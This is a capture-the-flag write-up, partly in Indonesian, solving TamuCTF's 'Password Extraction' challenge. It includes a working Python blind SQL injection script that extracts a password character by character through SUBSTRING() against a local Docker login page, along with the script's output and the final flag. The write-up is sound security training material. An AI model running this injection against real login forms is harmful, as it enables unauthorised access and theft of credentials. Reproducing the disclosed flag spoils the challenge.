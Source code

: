 <h1 align="center">Password Extraction</h1>

## Description

The owner of this website often reuses passwords.  Can you find out the password they are using on this test server?  

### Setup Docker

[Dockerfile](https://github.com/KelompokStudiLinux/WriteUp-CTF/raw/master/TamuCTF/WEB/password-extraction/Dockerfile.tar)

```
> docker build . -t passwordextraction
> docker run -p 80:80 passwordextraction
```

## Solution

Pada deskripsi yang diberikan dapat dipastikan passwordnya adalah **flag**. <br />
Untuk memastikan web tersebut vulnerable terhadap sqli kami mencoba melakukan :

![Form](./img/form.png)

Hasilnya :

![Res](./img/result.png)

Langkah selanjutnya kami hanya perlu melakukan injection dengan memanfaatkan fungsi [SUBSTRING()](https://www.w3schools.com/SQL/func_sqlserver_substring.asp) pada SQL untuk mengextract password : <br />

```
import string
import requests

chars = [x for x in string.printable if x not in ['%', '_']]
url = 'http://172.17.0.2/login.php'
injection = "' OR SUBSTRING(password,1,{})='{}' -- -"
flag = ''

while '}' not in flag:
    for char in chars:
        length = len(flag) + 1
        newString = flag + char
        inject = injection.format(length, newString)
        payload = { 'username': inject, 'password': 'bebas' }

        r = requests.post(url, data=payload)
        
        if 'authorized' in r.text:
            flag = newString
            print(flag)
            break
```
[solve.py](./solve.py)

Hasil :

```
❯ ./solve.py
g
gi
gig
gige
gigem
gigem{
gigem{h
gigem{h0
gigem{h0p
gigem{h0pe
gigem{h0peY
gigem{h0peYo
gigem{h0peYou
gigem{h0peYouS
gigem{h0peYouSc
gigem{h0peYouScr
gigem{h0peYouScr1
gigem{h0peYouScr1p
gigem{h0peYouScr1pt
gigem{h0peYouScr1pte
gigem{h0peYouScr1pted
gigem{h0peYouScr1ptedT
gigem{h0peYouScr1ptedTh
gigem{h0peYouScr1ptedTh1
gigem{h0peYouScr1ptedTh1s
gigem{h0peYouScr1ptedTh1s}
```

### FLAG

```
gigem{h0peYouScr1ptedTh1s}
```
